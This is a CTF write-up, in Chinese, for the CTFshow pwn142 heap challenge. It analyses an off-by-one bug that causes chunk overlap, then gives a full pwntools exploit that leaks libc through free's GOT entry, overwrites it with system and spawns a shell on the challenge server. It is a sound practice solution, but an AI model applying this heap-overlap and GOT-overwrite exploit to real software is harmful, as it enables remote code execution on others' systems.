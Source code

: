 ```yaml
---
title: CTFshow pwn142
---
```

# CTFshow pwn142（堆风水？|堆块重叠）
## ida分析
### menu
![f7cffd67496a436bb6cad9ebfd00decf.png](https://img.picui.cn/free/2025/03/10/67ce92f6ce057.png)
四个功能：创建、编辑、打印、删除

### create分析
![bef06bdf0a3923914eb6b5c389c43e74.png](https://img.picui.cn/free/2025/03/10/67ce936bbb0b1.png)
1.先申清一个0x10的堆块，里面存放size，和接下来申清的堆块的地址
2.利用存放的地址，寻找堆块位置输入

### edit分析
![1741591628419.png](https://img.picui.cn/free/2025/03/10/67ce944e433a1.png)
1.这里存在一个off-by-one的漏洞，可以造成堆块的重叠

### show分析
![1741591738926.png](https://img.picui.cn/free/2025/03/10/67ce94bc5a792.png)
1.可以通过printf泄露libc


### delete分析
![1741591782030.png](https://img.picui.cn/free/2025/03/10/67ce94e7855ee.png)
1.没有留下uaf漏洞

## 构造思路
1.首先创建两个大小分别为0x18和0x10的堆块。此时会有四个堆块，通过`edit 0` 溢出到下一个堆块的size为0x41，造成堆块的重叠。同时将0 号堆块的内容设置为`/bin/sh\x00`
2.接着`delete 1` ,再申请一块大小为0x30的堆块。
3.此时，在creat时，会将原先第四个堆块先申请给0x10的堆块。然后申清0x30时，原先的第三、第四堆块都分配。也就是我们可以通过`edit 1`修改头部的chunk。
4.如果creat时，将chunk的内容填充为free_got， 就可以使用`show 1`泄露libc。并且`edit 1`可以修改got 表的内容


## exp
```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=1
url='pwn.challenge.ctf.show'
port=28206
elf=ELF("./pwn")
if mode == 0:
    io=process("./pwn")
else :
    io=remote(url,port)

def add(size,content):
    io.recvuntil("Your choice :")
    io.sendline("1")
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap:")
    io.sendline(content)

def edit(idx,content):
    io.recvuntil("Your choice :")
    io.sendline("2")
    io.recvuntil("Index :")
    io.sendline(str(idx))
    io.recvuntil("Content of heap : ")
    io.sendline(content)

def show(idx):
    io.recvuntil("Your choice :")
    io.sendline("3")
    io.recvuntil("Index :")
    io.sendline(str(idx))

def delete(idx):
    io.recvuntil("Your choice :")
    io.sendline("4")
    io.recvuntil("Index :")
    io.sendline(str(idx))

free_got=elf.got["free"]
add(0x18,b'aaaa') #0
add(0x10,b'bbbb') #1
payload=b'/bin/sh\x00'.ljust(0x18,b'\x61')+b'\x41'
edit(0,payload)
#gdb.attach(io)
delete(1)
add(0x30,p64(0)*4+p64(0x30)+p64(free_got))
show(1)

io.recvuntil("Content : ")
free=u64(io.recv(6).ljust(8,b'\x00'))
log.success('free-{}'.format(hex(free)))
libc=finder("free",free)
libcbase=free-libc.dump("free")
system=libcbase+libc.dump("system")
edit(1,p64(system))
delete(0)

io.interactive()
```